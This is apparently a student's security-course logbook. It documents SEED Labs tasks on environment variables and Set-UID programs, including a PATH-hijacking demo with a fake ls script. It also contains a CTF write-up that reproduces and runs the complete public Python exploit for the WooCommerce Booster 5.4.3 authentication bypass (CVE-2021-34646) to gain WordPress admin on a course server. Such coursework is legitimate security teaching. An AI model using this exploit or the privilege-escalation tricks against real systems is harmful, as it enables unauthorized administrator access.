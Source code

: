 # Trabalho realizado na Semana #4

<br>

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/task1/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

<br>

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff child_env parent_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   <img src="images/logbook4/task2/overview.png" alt="Overview of task 2" width="50%" />
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

<br>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.

1. Compile the `myenv.c` file using `gcc myenv.c`.
2. Execute the program and save its output to a file using `a.out > null_env`.
3. Replace `NULL` with `environ` on the invocation of `execve`.
4. Compile the `myenv.c` file again using `gcc myenv.c`.
5. Execute the program and save its output to a file using `a.out > environ_env`.
6. Compare the changes using `diff null_env environ_env`.

<figure>
   <img src="images/logbook4/task3/overview.png" alt="Overview of task 3" width="50%" />
   <figcaption><strong>Fig 6. </strong>Overview of task 3</figcaption>
</figure>

As we can see, the `environ_env` file - when `environ` was passed to `execve` - has more environment variables
than the `null_env` file - when `NULL` was passed to `execve`. In fact, when `NULL` is passed to `execve`, the
resulting process has no environment variables.

The declaraction of `execve` helps us understand why this is the case.

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The `envp` array is the array of environment variables that will be passed to the resulting process. Therefore,
if we pass `NULL` to it, no environment variables will be passed to the resulting process and, if we pass `environ`,
the calling process' environment variables will be passed to the resulting process.

<br>

## Task 4 : Environment Variables and system()

1. Compile the following program.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
   system("/usr/bin/env");
   return 0 ;
}
```

2. Execute the program.
3. Analyze the result.

<figure>
   <img src="images/logbook4/task4/overview.png" alt="Overview of task 4" width="50%" />
   <figcaption><strong>Fig 7. </strong>Overview of task 4</figcaption>
</figure>

As we can see, the program behaves as if we called `env` directly from our shell, showing us all the process'
environment variables. When using `system`, it's as if we called the function

```c
execl("/bin/sh", "sh", "-c", "/usr/bin/env", (char *) NULL);
```

This function will afterwards call the `execve` function with the process' environment variables and, therefore,
the results will be the same.

<br>

## Task 5 : Environment Variable and Set-UID Programs

1. Compile the following program and name it `penv`.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main() {
   int i = 0;
   while (environ[i] != NULL) {
      printf("%s\n", environ[i]);
      i++;
   }
}
```

2. Make `root` the owner of `penv` using `sudo chown root penv`.
3. Set the `Set-UID` bit in `penv` using `sudo chmod 4755 penv`.

4. Change the current shell's environment variables using

```sh
export PATH=/PWNED:$PATH
export LD_LIBRARY_PATH=/PWNED
export PWNED=YES
```

5. Execute the `penv` program.

<figure>
   <img src="images/logbook4/task5/overview.png" alt="Overview of task 5" width="50%" />
   <figcaption><strong>Fig 8. </strong>Overview of task 5</figcaption>
</figure>

As we can see, both the modified `PATH` and our custom environment variable were passed to the `Set-UID` program.
The `LD_LIBRARY_PATH` environment variable, however, was not passed to the `Set-UID` program.

When a `Set-UID` program is run, the linker determines that the program is running in secure execution mode.
When in secure execution mode, the `LD_LIBRARY_PATH` is ignored to prevent the loading and execution of malicious code
in these programs. 
> Source: https://man7.org/linux/man-pages/man8/ld.so.8.html

For instance, if a hacker had write access to any directory (for instance, `/tmp`), they could compile a library
with a special implementation for any function (`printf`, for instance). In this implementation, they could call
`system("<command to start a reverse shell>")` or execute any other piece of malicious code.

When executing a given `Set-UID` program, the process would execute with the privileges of the program owner amd,
if `LD_LIBRARY_PATH=/tmp` (or the directory the hacker had access to), the linker would load the malicious `printf`
implementation and the system would be compromised. The reverse shell (or any other code in the malicious implementation)
would run as `root`.

<br>

## Task 6 : The PATH Environment Variable and Set-UID Programs

1. Compile the following program and name it `myls`.

```c
#include <stdlib.h>

int main() {
   system("ls");
   return 0;
}
```

2. Make `root` the owner of `myls` using `sudo chown root myls`.
3. Set the `Set-UID` bit in `myls` using `sudo chmod 4755 myls`.

4. Save the following malicious script to a file named `ls`.

```sh
#!/bin/sh
echo "Executing malicious script..."
whoami
```

5. Make `ls` executable using `chmod 755 ls`.
   
6. Add the current working directory, where the script is located, to the start of the `PATH` environment variable, using `export PATH=$PWD:$PATH`

7. Execute the `myls` program.
   
<figure>
   <img src="images/logbook4/task6/overview.png" alt="Overview of task 6" width="50%" />
   <figcaption><strong>Fig 9. </strong>Overview of task 6</figcaption>
</figure>

In this task, we have a `Set-UID` program called `myls` which executes the command `ls`.
Since the provided path is a relative path (it doesn't start with `/`), the `ls` program will be searched in the directories
indicated in the `PATH` environment variable. Once it finds a program called `ls` in one of those directories, the shell will
execute that program.

In this case, it will execute a shell script which prints a message and identifies the effective user name of the process.
Since `myls` is executed as `root` (since `root` is the owner of the file and the `Set-UID` bit is set), its child
processes will also be executed with `root` as their effective user. This means that the shell script is executed as `root`
as well and that's why `whoami` prints `root`.

> To execute the example successfuly, the `/bin/sh` program needs to be replaced with a shell that doesn't protect itself
> against being executed from `Set-UID` programs, such as `zsh`. To do that, you should execute `sudo ln -sf /bin/zsh /bin/sh`
> before executing any of the commands above.

<br>
<br>
<br>

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
